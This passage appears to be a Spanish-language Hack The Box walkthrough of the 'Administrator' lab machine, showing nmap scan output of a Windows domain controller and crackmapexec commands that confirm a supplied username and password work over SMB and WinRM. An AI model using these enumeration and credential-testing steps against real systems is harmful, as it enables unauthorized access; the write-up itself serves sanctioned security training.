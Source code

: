 ```terminal
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51402/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58205/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
58210/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58213/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58230/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58263/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35406/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40321/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52617/udp): CLEAN (Timeout)
|   Check 4 (port 32087/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-10T06:27:07
|_  start_date: N/A
|_clock-skew: 7h00m01s
```

Se identifica el sistema objetivo como un controlador de dominio basado en Windows Server 2022.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ crackmapexec smb administrator.htb
SMB         administrator.htb 445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)

/home/kali/Documents/htb/machines/administrator:-$ echo '10.10.11.42\tadministrator.htb\tdc\tdc.administrator.htb' | sudo tee -a /etc/hosts
```

Pruebo las credenciales del usuario `Olivia`, las cuales son válidas tanto para SMB como para el servicio WinRM.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ crackmapexec smb administrator.htb -u "Olivia" -p "ichliebedich"
SMB         administrator.htb 445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         administrator.htb 445    DC               [+] administrator.htb\Olivia:ichliebedich

/home/kali/Documents/htb/machines/administrator:-$ crackmapexec winrm administrator.htb -u "Olivia" -p "ichliebedich"
SMB         administrator.htb 5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
HTTP        administrator.htb 5985   DC               [*] http://administrator.htb:5985/wsman
WINRM       administrator.htb 5985   DC               [+] administrator.htb\Olivia:ichliebedich (Pwn3d!)
```

---
